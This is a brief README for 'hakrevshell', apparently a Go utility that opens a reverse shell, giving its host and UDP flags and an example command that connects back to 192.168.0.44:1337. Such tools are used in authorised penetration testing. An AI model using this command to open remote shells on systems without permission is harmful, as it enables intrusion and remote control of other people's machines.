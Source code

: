 # hakrevshell
A golang reverse shell utility

## Usage

`-h`: Host and port to connect to
`--udp`: Use UDP instead of the default TCP

Example:

```
hakrevshell -h 192.168.0.44:1337 --udp
```


